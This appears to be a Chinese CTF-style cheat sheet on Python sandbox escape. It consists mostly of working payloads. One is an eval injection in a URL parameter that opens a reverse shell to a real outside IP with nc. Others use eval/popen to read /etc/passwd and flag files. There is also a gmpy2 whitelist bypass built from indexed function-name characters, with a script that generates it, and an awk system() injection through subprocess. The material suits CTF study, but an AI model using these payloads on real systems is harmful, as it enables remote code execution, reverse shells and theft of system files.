 ## **python沙箱逃逸执行危险函数**
<https://blog.csdn.net/Jayjay___/article/details/132436072>


## **十六进制编码**
十六进制编码在Python字符串中是合法的，因为它是Python语言规范的一部分。当Python解释器读取到这样的编码时，它会将十六进制数转换成对应的字符。


^
## **eval()函数利用**
python报错后显示了代码：eval(a + operator + b)
```
拼接传参b
/_calculate?number1=1&operator=-&number2=1,__import__ ('os').system('nc 120.46.41.173 9023 -e /bin/sh')
```

```
eval(__import__('os').popen('cat /etc/passwd').read());
eval(__import__('os').popen('cat /f*').read());
```

^
## **eval存在过滤**
eval(code)
要求code存在gmpy2数组中
```
for item in pattern.findall(code):#从code里把单词拿出来 
if not re.match(r'\d+$',item):#如果不是数字 
if item not in dir(gmpy2):#逐个和gmpy2库里的函数名比较
```
```
知道gmpy2以下可以命令执行：
gmpy2.__builtins__['eval']("__import__('os').popen('tac /flag').read()")

则需要对eval和__import__('os').popen('tac /flag').read()进行内含的数组中绕过
即：
gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]('c_div'[1]+'c_div'[1]+'ai'[1]+'agm'[2]+'cmp'[2]+'cos'[1]+'erf'[1]+'cot'[2]+'c_div'[1]+'c_div'[1]+"("+"'"+'cos'[1]+'cos'[2]+"'"+")"+"."+'cmp'[2]+'cos'[1]+'cmp'[2]+'erf'[0]+'jn'[1]+"("+"'"+'cot'[2]+'ai'[0]+'cmp'[0]+" "+"/"+'erf'[2]+'lcm'[0]+'ai'[0]+'agm'[1]+"'"+")"+"."+'erf'[1]+'erf'[0]+'ai'[0]+'add'[1]+"("+")")

```
生成脚本
```
s="__import__('os').popen('tac /flag').read()"

import gmpy2

payload="gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]("

for i in s:
        if i not in "/'(). ":
                temp_index=0
                temp_string='x'*20
                for j in dir(gmpy2):
                        if j.find(i)>=0:
                                if len(j)<len(temp_string):
                                        temp_string=j
                                        temp_index=j.find(i)
                payload+=f'\'{temp_string}\'[{temp_index}]+'
        else:
                payload+=f'\"{i}\"+'

payload=payload[:-1]+')'

print(payload)
```



^
## **subprocess运行外部命令**
使用了 Python 的 `subprocess` 模块来运行外部命令：
```
cmd: str = request.form.get('cmd')
param: str = request.form.get('param')

tVar = subprocess.run([cmd[:3], param, __file__], cwd=os.getcwd(), timeout=5)
```
1. `subprocess.run`: 这是 `subprocess` 模块中的一个函数，用于运行外部命令。
2. `cmd[:3]`: 这是一个列表，包含了外部命令的可执行文件和它的参数。`cmd[:3]` 表示取 `cmd` 列表的前三个元素，可能是外部命令的可执行文件和一些参数。
3. `param`: 这是一个变量，作为外部命令的参数。
4. `__file__`: 这是一个变量，表示当前脚本的文件名。
5. `cwd=os.getcwd()`: 这是 `subprocess.run` 函数的参数，指定了子进程的当前工作目录。`os.getcwd()` 返回当前工作目录。
6. `timeout=5`: 这是 `subprocess.run` 函数的参数，指定了运行外部命令的超时时间，单位是秒。在这里，设置为 5 秒。

cmd是执行的命令，param是执行的参数
python中有一个awk命令，可以执行系统命令，长度刚好为3
格式为：awk '(system("ls")' 
通过抓包分析，传参方式为post，根据可控参数cmd和param
通过awk构造payload
payload:
cmd=awk&param={system("ls")}//查看当前路径下所有文件
cmd=awk&param={system("cat fla*")}//查爱fLag文件的内容

